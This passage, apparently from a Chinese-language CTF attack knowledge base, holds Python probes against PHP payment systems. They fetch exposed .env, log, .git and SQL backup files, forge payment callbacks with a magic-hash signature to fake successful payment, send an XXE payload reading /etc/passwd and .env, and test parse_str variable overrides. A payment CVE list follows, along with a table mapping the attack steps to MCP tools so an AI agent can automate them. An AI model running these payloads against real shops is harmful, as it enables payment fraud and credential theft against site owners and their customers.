            "/.env", "/env", "/.env.local",
            "/config/.env", "/api/.env",
            "/storage/logs/laravel.log",
            "/storage/logs/laravel-2024-01-01.log",
            "/runtime/log/202401/01.log",
            "/backup/db.sql", "/backup/database.sql",
            "/.git/HEAD", "/.git/config",
            "/composer.json", "/composer.lock",
            "/vendor/composer/installed.json",
        ]:
            r = self.s.get(self.base + path, allow_redirects=False)
            if r.status_code == 200:
                content = r.text[:200]
                print(f"[ENV] {path} → {r.status_code} | {content[:80]}")

    def check_phar_upload(self):
        """PHAR 反序列化上传探测"""
        # 如果支付系统有文件上传 (凭证/截图):
        # 上传 phar://test.jpg → 如果触发了文件操作 → 可能 RCE
        pass

    def check_magic_hashes(self):
        """PHP Magic Hash 专项"""
        results = []
        # POST 到所有可能的回调 URL
        notify_paths = [
            "/notify", "/callback", "/webhook",
            "/pay/notify", "/payment/notify",
            "/api/notify", "/api/callback",
            "/return", "/pay/return",
        ]
        for path in notify_paths:
            for field in ["sign", "signature", "hash", "verify_token"]:
                # 两个 magic hash，== 比较下相等
                r = self.s.post(self.base + path, data={
                    "order_id": "TEST",
                    "trade_status": "TRADE_SUCCESS",
                    "total_amount": "0.01",
                    "notify_id": "TEST_001",
                    field: "0e462097431907509062922748828256",
                })
                if r.status_code == 200 and "fail" not in r.text.lower():
                    results.append((path, field))
                    print(f"[MagicHash] {path} with {field}=magic_hash → OK")
        return results

    def check_parse_str(self):
        """parse_str 变量覆盖"""
        # parse_str 无第二参数时直接把值写到变量
        # 测试: 注入 trade_status=TRADE_SUCCESS
        r = self.s.post(self.base + "/notify", data={
            "trade_status": "TRADE_SUCCESS",
            "out_trade_no": "TEST_ORDER",
            "total_amount": "0.01",
        })
        if r.status_code == 200:
            print(f"[parse_str] POST trade_status → {r.status_code}")

    def check_xml_callback(self):
        """XML 回调 + XXE"""
        xxe_payload = """<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
  <!ENTITY xxe2 SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/.env">
]>
<xml>
  <out_trade_no>&xxe;</out_trade_no>
  <trade_status>TRADE_SUCCESS</trade_status>
  <total_amount>0.01</total_amount>
</xml>"""
        notify_paths = ["/notify", "/callback", "/pay/notify", "/wxpay/notify"]
        for path in notify_paths:
            r = self.s.post(self.base + path,
                data=xxe_payload,
                headers={"Content-Type": "application/xml"},
                timeout=10)
            if "root:" in r.text or "DB_" in r.text:
                print(f"[!] XXE success at {path}: {r.text[:200]}")
            elif r.status_code == 200:
                print(f"[XML] {path} → {r.status_code} | {r.text[:200]}")
```

## 10. PHP 支付 CVEs 速查

```python
# PHP 支付相关已知 CVE (持续更新)
PHP_PAYMENT_CVES = {
    "woocommerce": [
        "CVE-2023-34000 — WooCommerce Stripe Gateway 未授权订单访问",
        "CVE-2023-28121 — WooCommerce Payments 权限提升 (Admin)",
        "CVE-2022-45071 — WooCommerce Subscriptions 越权取消",
    ],
    "magento": [
        "CVE-2022-24086 — Magento RCE (pre-auth)",
        "CVE-2022-24087 — Magento RCE via payment info",
        "PRODSECBUG-2198 — Magento payment method RCE",
    ],
    "laravel": [
        "CVE-2021-3129 — Laravel Ignition RCE (APP_DEBUG=true)",
        "CVE-2021-43617 — Laravel file upload bypass",
    ],
    "prestashop": [
        "CVE-2022-31101 — PrestaShop payment module RCE",
        "CVE-2022-36408 — PrestaShop SQLi in payment",
    ],
    "php_itself": [
        "PHP 5.3.9 — parse_str memory corruption",
        "PHP 7.x — unserialize() use-after-free",
        "PHP 8.1 — FPM local root (CVE-2021-21703)",
    ],
}
```

## 攻击链总图



## MCP 工具映射

AI Agent 可调用以下 MCP 工具自动完成或加速上述攻击步骤：

| 攻击步骤 | MCP 工具 | 说明 |
|---------|---------|------|
| PHP 支付 API 探测 | `http_probe` | HTTP GET 探测 PHP 支付接口端点 |
| 知识检索 | `kb_router` | 按 PHP 支付漏洞信号搜索知识库 |

## 证据与验证闭环

- 保存 baseline 与单变量 probe 的完整请求、响应状态、关键响应头和正文摘要。
- 将“响应差异”与服务端副作用分开记录；只有权限、状态、数据或 Flag 可重复变化才算确认。
- 从全新 session/重置状态最小化重放，记录依赖、并发参数、时间窗口及失败样本。
- 输出统一放入 `exports/ctf-website/<case>/`，凭据只用 `REDACTED` 占位，自动检索 `flag{}`、`CTF{}`、`DASCTF{}`。
